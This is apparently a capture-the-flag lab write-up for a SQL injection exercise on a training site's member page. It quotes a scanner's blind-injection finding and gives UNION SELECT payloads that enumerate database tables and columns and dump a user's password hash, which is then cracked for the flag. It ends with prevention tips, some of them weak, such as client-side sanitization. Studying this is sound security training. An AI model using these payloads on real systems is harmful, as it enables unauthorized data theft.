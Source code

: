 # SQL Injection Member page
Page: http://10.13.200.53/?page=member

WAPITI SCAN reveal this error:
```
Vulnerability found in /index.php
Description HTTP Request cURL command line
Blind SQL vulnerability via injection in the parameter id
GET /index.php?page=member&id=sleep%287%29%231&Submit=Submit HTTP/1.1
Host: 10.13.200.53
Referer: http://10.13.200.53/index.php?page=member
curl "http://10.13.200.53/index.php?page=member&id=sleep%287%29%231&Submit=Submit" -e "http://10.13.200.53/index.php?page=member"
```
Cybersecurity piscine script also

## SQL
Basic SQL injection test:

`1 == 1`

**Result**: `You have an error sin your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '= 1' at line 1`

`1 UNION SELECT 1,2`
**Result**: 
```
ID: 1 UNION SELECT 1,2 
First name: one
Surname : me
ID: 1 UNION SELECT 1,2 
First name: 1
Surname : 2
```

**Database name:**
```
ID: 0 UNION SELECT 1,database()
First name: 1
Surname : Member_Sql_Injection
```

**Database version:**
```
ID: 1 UNION SELECT 1,@@version 
First name: 1
Surname : 5.5.64-MariaDB-1ubuntu0.14.04.1
```

**Table name:**
`0 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES `

RESULTS:
 - CHARACTER_SETS
...
 - db_default
 - users
 - guestbook
 - list_images
 - vote_dbs

 **Column names:**
 - CHARACTER_SET_NAME
...
 - username
 - password
 - user_id
 - first_name
 - last_name
 - town
 - country
 - planet
 - Commentaire
 - countersign
 - id_comment
 - url
 - title
 - id_vote
 - vote
 - nb_vote
 - subject

**We can use the concat() method to see extra fields:**
`0 UNION select 1,concat(town) from users`

For the user with the id 5: 
    last_name = "GetThe", 
    first_name = 'falg' ,
    town = '42', 
    country = '42', 
    planet = '42', 
    Commentaire= "Decrypt this password -> then lower all the char. Sh256 on it and it's good!",
    countersign = '5ff9d0165b4f92b14994e5c685cdce28'


using this website: [Hash Function (+Salt) Decrypter - Unhash Password - Online Decoder](https://www.dcode.fr/hash-function)
The decrypted hash md5 give: *FortyTwo*

If we encrypt `fortytwo` with SHA256 we have: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## How to prevent SQL injection
### Client Side (JQUERY)
- Input sanitization, before sending any data to the server
- Use input masks to restrict user input to specific formats.



### Server side (PHP)
- Use ORM
- Input validation and sanitization with php functions like:
    - `filter_var()`
    - `htmlspecialchars()`

---

Do *not* concatenate strings into queries in the stored procedure, or use 'exec', 'exec immediate', or equivalent functionality!

Do not create dynamic SQL queries using simple string concatenation.

Escape all data received from the client.

Apply an 'allow list' of allowed characters, or a 'deny list' of disallowed characters in user input.

Apply the principle of least privilege by using the least privileged database user possible.

In particular, avoid using the 'sa' or 'db-owner' database users. This does not eliminate SQL injection, but minimizes its impact.

Grant the minimum database access that is necessary for the application.